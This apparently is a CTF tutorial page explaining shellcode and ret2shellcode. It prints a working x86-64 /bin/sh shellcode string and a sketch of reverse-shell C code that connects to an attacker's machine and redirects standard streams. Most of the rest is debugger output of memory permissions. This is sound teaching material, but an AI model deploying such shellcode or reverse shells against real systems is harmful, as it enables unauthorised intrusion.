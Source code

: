 # Shellcode

### Example

A very good resource for finding shellcode is shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

I have chosen a Linux x86-64 shellcode which executes /bin/sh

> [http://shell-storm.org/shellcode/files/shellcode-806.php](http://shell-storm.org/shellcode/files/shellcode-806.php)

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

### What is it?

Shellcode is essentially our own compiled assembly, which can gain us a "shell". This "shell" is essentially a terminal, in which we can execute our own commands from, such as `ls`, `whoami`, `python -c 'import pty;pty.spawn("/bin/sh")'`, `sudo -l` etc. The way that this is done is by many ways. One way is to create a socket which will listen on the attackers ip and port, and then send a `dup2()` command to bind the attacker's socket to the program's input, output, error.

```c
// Open a TCP connection to an attacker controlled machine or server
sock = socket(AF_INET, SOCK_STREAM);
connect(sock, /* Attacker's ip and port */);

// bind socket to program's stdin/out/err
dup2(sock, 0); // stdin
dup2(sock, 1); // stdout
dup2(sock, 2); // stderr
```

We can compile this, send it over to the binary, and bam, we have a shell!!

However, there is a slight caveat to this. Where are we going to store our shellcode? How can we get it to execute? We can't execute things from the stack, or can we?

This is where we need to have a look at the permissions that certain pages have in the binary. We can get our shellcode to be stored somewhere, or written to, and then executed. For this to happen, we must have a page, or section of the binary which is mapped, to have a `rwx` permission. This'll allow us to `Read, write, execute` any code inside that page. We can view what pages have what permissions by using gdb or radare2:

{% tabs %}
{% tab title="gdb" %}
```c
$ gdb ./file // use --nx if you have an extension for gdb
(gdb) r
^c
(gdb) p (int) getpid()
(gdb) shell cat /proc/pid/maps
```

```java
euan@euanb26  eXit  gdb --nx ./eXit 
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
(gdb) r
Starting program: /home/euan/CTF/r2con/easy/eXit/eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
0x00007ffff7ed1fb2 in __GI___libc_read (fd=0, buf=0x5555555596b0, nbytes=1024)
    at ../sysdeps/unix/sysv/linux/read.c:26
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
(gdb) p getpid()
'getpid' has unknown return type; cast the call to its declared return type
(gdb) print (int) getpid()
$1 = 7888
(gdb) shell cat /proc/7888/maps
555555554000-555555555000 r--p 00000000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555555000-555555556000 r-xp 00001000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555556000-555555557000 r--p 00002000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555557000-555555558000 r--p 00002000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555558000-555555559000 rw-p 00003000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555559000-55555557a000 rw-p 00000000 00:00 0                          [heap]
7ffff7dc1000-7ffff7de6000 r--p 00000000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7de6000-7ffff7f5e000 r-xp 00025000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7f5e000-7ffff7fa8000 r--p 0019d000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa8000-7ffff7fa9000 ---p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa9000-7ffff7fac000 r--p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fac000-7ffff7faf000 rw-p 001ea000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7faf000-7ffff7fb5000 rw-p 00000000 00:00 0 
7ffff7fcb000-7ffff7fce000 r--p 00000000 00:00 0                          [vvar]
7ffff7fce000-7ffff7fcf000 r-xp 00000000 00:00 0                          [vdso]
7ffff7fcf000-7ffff7fd0000 r--p 00000000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7fd0000-7ffff7ff3000 r-xp 00001000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ff3000-7ffff7ffb000 r--p 00024000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffc000-7ffff7ffd000 r--p 0002c000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffd000-7ffff7ffe000 rw-p 0002d000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0 
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
(gdb) 


```
{% endtab %}

{% tab title="gdb-peda / gdb-gef" %}
```c
$ gdb ./file
gdb-peda$ r
^c
gdb-peda$ vmmap
```

```java
euan@euanb26  eXit  gdb ./eXit
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
gdb-peda$ r
Starting program: /home/euan/CTF/r2con/easy/eXit/eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
[----------------------------------registers-----------------------------------]
...
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555555000 r--p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555555000 0x0000555555556000 r-xp	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555556000 0x0000555555557000 r--p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555557000 0x0000555555558000 r--p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555558000 0x0000555555559000 rw-p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555559000 0x000055555557a000 rw-p	[heap]
0x00007ffff7dc1000 0x00007ffff7de6000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de6000 0x00007ffff7f5e000 r-xp	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f5e000 0x00007ffff7fa8000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa8000 0x00007ffff7fa9000 ---p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa9000 0x00007ffff7fac000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fac000 0x00007ffff7faf000 rw-p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faf000 0x00007ffff7fb5000 rw-p	mapped
0x00007ffff7fcb000 0x00007ffff7fce000 r--p	[vvar]
0x00007ffff7fce000 0x00007ffff7fcf000 r-xp	[vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 r-xp	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
gdb-peda$ 


```
{% endtab %}

{% tab title="radare2" %}
```c
$ r2 -dA ./file
[0x7f92d71ee100]> dcu entry0
[0x55b76f81b1a0]> dm
```

```java
euan@euanb26  eXit  r2 -dA ./eXit
Process with PID 7600 started...
= attach 7600 7600
bin.baddr 0x55b76f81a000
Using 0x55b76f81a000
asm.bits 64
[Cannot find function at 0x55b76f81b1a0. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x7f92d71ee100]> dcu entry0
Continue until 0x55b76f81b1a0 using 1 bpsize
hit breakpoint at: 55b76f81b1a0
[0x55b76f81b1a0]> dm
0x000055b76f81a000 - 0x000055b76f81b000 - usr     4K s r-- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; sym.imp.__cxa_finalize
0x000055b76f81b000 - 0x000055b76f81c000 * usr     4K s r-x /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.r_x
0x000055b76f81c000 - 0x000055b76f81d000 - usr     4K s r-- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.r
0x000055b76f81d000 - 0x000055b76f81e000 - usr     4K s r-- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.rw
0x000055b76f81e000 - 0x000055b76f81f000 - usr     4K s rw- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; section..data
0x00007f92d6fe3000 - 0x00007f92d7008000 - usr   148K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7008000 - 0x00007f92d7180000 - usr   1.5M s r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7180000 - 0x00007f92d71ca000 - usr   296K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ca000 - 0x00007f92d71cb000 - usr     4K s --- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71cb000 - 0x00007f92d71ce000 - usr    12K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ce000 - 0x00007f92d71d1000 - usr    12K s rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71d1000 - 0x00007f92d71d7000 - usr    24K s rw- unk0 unk0
0x00007f92d71ed000 - 0x00007f92d71ee000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d71ee000 - 0x00007f92d7211000 - usr   140K s r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r_x
0x00007f92d7211000 - 0x00007f92d7219000 - usr    32K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r
0x00007f92d721a000 - 0x00007f92d721b000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.rw
0x00007f92d721b000 - 0x00007f92d721c000 - usr     4K s rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d721c000 - 0x00007f92d721d000 - usr     4K s rw- unk1 unk1 ; map.unk0.rw
0x00007fffae0ae000 - 0x00007fffae0cf000 - usr   132K s rw- [stack] [stack] ; map.stack_.rw
0x00007fffae0f4000 - 0x00007fffae0f7000 - usr    12K s r-- [vvar] [vvar] ; map.vvar_.r
0x00007fffae0f7000 - 0x00007fffae0f8000 - usr     4K s r-x [vdso] [vdso] ; map.vdso_.r_x
0xffffffffff600000 - 0xffffffffff601000 - usr     4K s --x [vsyscall] [vsyscall] ; map.vsyscall_.__x
[0x55b76f81b1a0]> 


```
{% endtab %}
{% endtabs %}

Our plan of attack, to perform a _ret2shellcode_ _attack_, __would be to overflow the buffer, enter in an address which points to an area in the `rwx` memory map and add our shellcode there. When we execute this, it should give us a shell back!!

